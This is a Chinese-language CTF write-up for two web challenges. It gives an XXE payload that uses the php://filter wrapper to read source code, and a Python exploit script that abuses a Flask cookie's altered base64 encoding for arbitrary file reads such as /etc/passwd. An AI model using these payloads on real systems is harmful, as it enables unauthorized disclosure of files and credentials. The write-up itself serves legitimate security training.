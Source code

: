 #### Who are you

XXE + PHP伪协议

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> ]>
<feedback><author>&b;</author></feedback>
```

#### Show me your image

观察Cookie格式为Flask框架，存在文件读取接口`img.php?name=`，fuzz后猜测是更换了码表的base64

由于base64是3bytes一组编码为4bytes，可以将服务端编码的字符串解码后除去末尾的`.jpg`后缀来达到任意文件读取

脚本：

```python
import requests
import sys
import os
import json
import base64

try:
    import urllib.parse as parse
except:
    import urllib as parse

filename = sys.argv[1]
url = 'http://040e0b15532e43929b8c5f5160cb0e51420d26a57ed548a7.changame.ichunqiu.com/'

r = requests.post(url+'upload.php', files={
    'file': (filename+'.jpg', b'xxx', 'image/jpeg')
    }, allow_redirects=0)
cookie = r.headers['Set-Cookie'][8:].split(';')[0]

k = os.popen('python flask_session_cookie_manager2.py decode -c '+'"'+cookie+'"')
x = json.loads(k.read())['file'][' b']

b = base64.b64decode
def decode(s):
    return base64.b64encode(b(b(s))[:-4])

r = requests.get(url+'img.php?name='+parse.quote(decode(x).decode()))
print(r.text)
```

```
$ python3 t.py "../../../../../etc/passwd"
```

根据题目hint读取`templates/upload.html`，由于编码存在分组填充，所以需要尝试填充`/`或`./`使达到3bytes一组

```
$ python3 t.py "../../../.././proc/self/cwd/templates/upload.html"
```
